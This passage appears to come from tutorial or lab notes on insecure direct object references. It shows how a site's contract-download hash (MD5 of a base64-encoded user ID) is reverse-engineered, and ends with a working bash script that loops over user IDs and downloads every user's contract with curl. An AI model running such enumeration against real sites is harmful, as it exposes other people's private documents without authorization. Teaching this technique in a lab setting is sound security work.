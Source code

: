 ```python
        with open(f"uid_{uid}_{filename}", 'wb') as f:
            f.write(file_response.content)
```

---

## 3. Bypassing Encoded References

### Function Disclosure Attack

#### JavaScript Function Analysis
**Vulnerable Frontend Code:**
```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

**Hash Calculation Process:**
1. **Input:** `uid = "1"`
2. **Base64 Encode:** `btoa("1")` = `"MQ=="`
3. **MD5 Hash:** `CryptoJS.MD5("MQ==")` = `"cdd96d3cc73d1dbdaffa03cc6cd7339b"`

#### Reverse Engineering Process
```bash
# Step 1: Identify the encoding/hashing method
echo -n "1" | base64 -w 0 | md5sum
# Output: cdd96d3cc73d1dbdaffa03cc6cd7339b

# Step 2: Verify against captured request
# POST /download.php
# contract=cdd96d3cc73d1dbdaffa03cc6cd7339b ✓ Match!
```

### Mass Contract Enumeration

#### Hash Calculation for Multiple Users
```bash
# Generate hashes for users 1-20
for i in {1..20}; do
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    echo "UID $i: $hash"
done
```

#### Automated Download Script
```bash
#!/bin/bash

url="http://target.com"

for i in {1..20}; do
    # Calculate hash: base64(uid) -> md5
    hash=$(echo -n $i | base64 -w 0 | md5sum | tr -d ' -')
    
    # Download contract using calculated hash
    curl -sOJ -X POST -d "contract=$hash" "$url/download.php"
    
    echo "Downloaded contract for UID $i (hash: $hash)"
done
```

---